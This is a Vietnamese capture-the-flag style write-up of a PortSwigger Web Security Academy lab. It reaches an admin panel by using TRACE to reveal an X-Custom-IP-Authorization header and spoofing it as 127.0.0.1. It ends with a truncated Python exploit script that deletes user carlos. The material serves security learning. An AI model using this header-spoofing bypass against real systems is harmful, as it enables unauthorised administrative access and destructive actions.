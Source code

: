 ### Phân tích

- Giao diện administrator của trang web chứa lỗ hỏng xác thực và có thể khai thác bằng các lỗ hổng qua phương thức HTTP. Chúng ta cần truy cập vào trang admin panel từ đó xóa tài khoản người dùng carlos. Chúng ta được cung cấp một tài khoản hợp lệ wiener:peter cho mục đích kiểm thử.

- tiếp tục dùng dirseach mình có được trang /admin

![image](https://hackmd.io/_uploads/rJlc8Fb26.png)

kết quả rằng chỉ có địa chỉ mạng local mới có thể vào được admin interface

![image](https://hackmd.io/_uploads/r10CUY-3p.png)

Status code trả về là 401 Unauthorized

- trang web không cho phép dùng method option
  ![image](https://hackmd.io/_uploads/HkP_VFW2p.png)

- mình thử dùng trace và thành công
  ![image](https://hackmd.io/_uploads/BkHarF-36.png)

![image](https://hackmd.io/_uploads/B11Nwtbnp.png)

- Đây là header xác định IP người dùng. Bởi vậy, để trở thành local user, có thể sử dụng header này với IP 127.0.0.1 giả mạo local user.

![image](https://hackmd.io/_uploads/S1h9vYbnT.png)

- Ứng dụng web của lab này cho phép user thực hiện được TRACE method ở tất cả các request. Khi đó, user có thể đọc được request thực sự mà server nhận được → Điều này dẫn đến có thể để lộ một số trường header nhạy cảm. Cụ thể ở đây là X-Custom-IP-Authorization. Đây là header có chức năng xác định IP nguồn của request để từ đó authorize theo. Như vậy, nếu X-Custom-IP-Authorization: 127.0.0.1 thì chứng tỏ request được gửi từ localhost và có thể được authorize làm admin.

### Khai thác

- khi thêm X-Custom-IP-Authorization: 127.0.0.1, ta đã vào được và có đủ chức năng của admin.

![image](https://hackmd.io/_uploads/B1zBdtbh6.png)

Thực hiện xóa user carlos và mình solve đươc lab

mình đã viết script khai thác

```python!
#!/usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a7f009203b1d05e8631e040006b0010.web-security-academy.net'

session=requests.Session()

headers = {
    'X-Custom-Ip-Authorization': '127.0.0.1',
}

response = session.get(
    url +'/admin/delete?username=carlos',
    headers=headers,
    verify=False,
```